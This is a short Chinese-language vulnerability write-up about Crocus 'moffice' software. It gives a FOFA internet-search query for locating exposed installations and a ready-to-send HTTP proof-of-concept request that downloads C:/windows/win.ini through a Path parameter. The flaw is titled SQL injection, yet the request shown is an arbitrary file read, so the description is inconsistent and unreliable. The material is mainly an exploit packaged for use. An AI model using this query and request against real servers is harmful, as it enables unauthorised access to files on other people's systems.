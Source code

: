 **漏洞描述**

Crocus科技软件-moffice-sql注入漏洞

**fofa搜索语句**

body="inp_verification"或icon_hash="1819219374"

**影响版本**

Crocus 

**漏洞复现**

POC：

```yaml
GET /Service.do?Action=Download&Path=C:/windows/win.ini HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=07F19D6F7EDC273FDD7B2DBF5F9EB561
Connection: close


```

